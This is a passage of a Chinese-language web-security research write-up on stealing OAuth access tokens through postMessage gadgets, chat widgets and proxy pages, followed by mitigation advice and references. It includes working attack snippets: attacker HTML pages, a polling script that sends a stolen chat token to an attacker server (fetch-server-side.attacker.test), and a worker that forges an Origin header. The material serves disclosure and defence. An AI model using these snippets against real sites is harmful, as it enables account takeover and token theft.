

```html

<a href=" " onclick="b=window.open('https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...');">Click here to hijack token</a >
```

3.launchChatWindowByPostMessage()函数将持续发送一个postMessage到主窗口，如果打开，以启动chat-widget:

```JavaScript

function launchChatWindowByPostMessage() {
  var launch = setInterval(function() {
    if(b) { b.postMessage({type: 'launch-chat'}, '*'); }
  }, 500);
}
```

4.当受害者单击该链接并最终出现在错误页面时，聊天将启动，并创建一个chat-api-令牌。我在恶意页面上重新加载chat-widget的iframe将通过postMessage获得API令牌，然后我可以开始在API中查找受害者的当前url:


```JavaScript

function lookInApi(token) {
  var look = setInterval(function() {
    fetch('https://fetch-server-side.attacker.test/?token=' + token).then(e => e.json()).then(e => {
      if (e &&
        e.api_data &&
        e.api_data.current_url &&
        e.api_data.current_url.indexOf('access_token') !== -1) {
          var payload = e.api_data.current_url
          document.getElementById('leak').innerHTML = 'Attacker now has the token: ' + payload;
          clearInterval(look);
      }
    });
  }, 2000);
}
```

5.服务器端页面`https://fetch-server-side.attacker.test/?token=xxx`将使用添加的origin头进行api调用，使Chat-API认为我使用它作为一个合法的起源:


```JavaScript

addEventListener('fetch', event => {
  event.respondWith(handleRequest(event.request))
})
async function getDataFromChatApi(token) {
  return await fetch('https://chat-widget.example.com/api', {headers:{Origin: 'https://example.com', 'Chat-Api-Token': token}});
}
function handleRequest(request) {
  const token = request.url.match('token=([^&#]+)')[1] || null;
  return token ? getDataFromChatApi(token) : null;
}

```
6.当受害者点击链接，经过OAuth-dance，并在添加了令牌的错误页面上登陆时，chat-widget会突然弹出，注册当前URL，攻击者将获得受害者的访问令牌。


## 其他关于url泄露的思路

使用任何可用的响应模式使URL泄漏可能是一个潜在的方法，但是我目前还无法在野外找到漏洞


### 域上的一个页面，它将任何postMessage路由到它的打开器


因为所有web_message响应类型都不能验证源的任何路径，所以有效域上的任何URL都可以接收带有令牌的postMessage。如果域中的任何页面上都有某种形式的postMessage-listener代理，它接收发送给它的任何消息并将所有内容发送到它的打开器，那么我可以创建一个双窗口。


攻击者第1页:

```html
<a href=" " onclick="a=window.open('attacker2.html'); return false;">Accept cookies</a >
```

攻击者第2页:

```html
<a href=" " onclick="b=window.open('https://accounts.google.com/oauth/...?', '', 'x'); location.href = 'https://example.com/postmessage-proxy'; return false;">Login to google</a >
```

`https://example.com/postmessage-proxy` 会有一些类似的内容:

```JavaScript

// Proxy all my messages to my opener:
window.onmessage=function(e) { opener.postMessage(e.data, '*'); }
```

我可以使用任何web_message-response模式将令牌从OAuth-provider向下提交到有效的起源https://example.com，但端点将进一步将令牌发送到opener，即攻击者的页面。
这个流程似乎不太可能，它需要两次点击:一次是在攻击者和网站之间创建一个打开器关系，第二次是启动拥有合法网站作为oauth -弹出的打开器的oauth -流。
oauth -提供者将令牌发送到合法的原点:




合法的源程序有它的打开器的postmessage -代理:





这会导致攻击者获得令牌:





## 结论
如你所见，在我开始了解这个问题十年后，仍有许多不同的方法来窃取这些tokens。<br>
由于每个OAuth-provider都允许如此多不同的响应类型和模式，对于一个网站来说，覆盖所有不同的情况是相当棘手的。


## 如何解决这个问题?
“OAuth 2.0安全最佳当前实践”中针对证书窃取的对策的第一部分指出: （https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics-19#section-4.2.4）
作为OAuth授权响应和授权端点的结果呈现的页面不应包括第三方资源或到外部站点的链接。


完全同意。还包括在端点未能成功完成登录过程时可能出现的错误页面。
我们之前已经提到过第三方脚本的问题（

https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/

https://labs.detectify.com/2017/07/13/a-deep-dive-into-aws-s3-access-controls-taking-full-control-over-your-assets/

https://labs.detectify.com/2015/05/28/building-an-xss-polyglot-through-swf-and-csp/
）。在这项研究的一些发现中，具有弱或没有起源检查的postmessage侦听器不仅是由第三方构建和嵌入的，而且实际上是由拥有网站的公司制作的。
另外，我认为作为oauth客户端，能够从oauth提供程序中只启用实际支持的响应类型和模式是一种解决方案。这样您就可以限制您知道您支持的流。一些oauth提供者实际上只提供对一种响应类型的支持，比如GitHub。

### PKCE (Code Exchange Proof Key for Code Exchange)能解决这个问题吗?

不完全是，在我的示例中，攻击者准备了一个到oauth -提供者的链接，以供受害者使用。这个链接会成功地在OAuth-provider中发出代码，将其与攻击者提供的code_challenge连接起来，但最终故意在OAuth-client的网站上出现一条不愉快的路径;例如，使用“故意中断状态”方法。当包含代码的URL泄露给攻击者时(如果错误页面上有gadget)，攻击者可以使用这些代码，因为在code_challenge中使用的是攻击者的code_verifier。


## 如何降低风险

了解oauth-dance中涉及的页面类型。这包括异常或错误页面，如果流程中预期的任何参数错误或丢失，可以触发这些页面在流中显示。
确保这些页面不使用任何第三方脚本。您现在可能不会使用任何易受攻击的第三方脚本，但如果您的组织中有人通过谷歌标签管理器或类似的方法引入任何新内容，或者如果第三方脚本更改，您可以防止任何未来潜在的令牌泄漏。
当redirect_uri可以更改为受影响的oauth -提供者时，我已经报告了其中提到的一些奇怪的问题。在发表这篇文章之前，我还将这篇文章的草稿发送给了IETF“OAuth 2.0安全最佳当前实践”的工作组。


## 参考
https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/

https://hackerone.com/reports/398054

https://www.hahwul.com/2020/05/14/vulnerability-of-postmessage/
 

https://hackerone.com/reports/1567186     --->比较新！！！

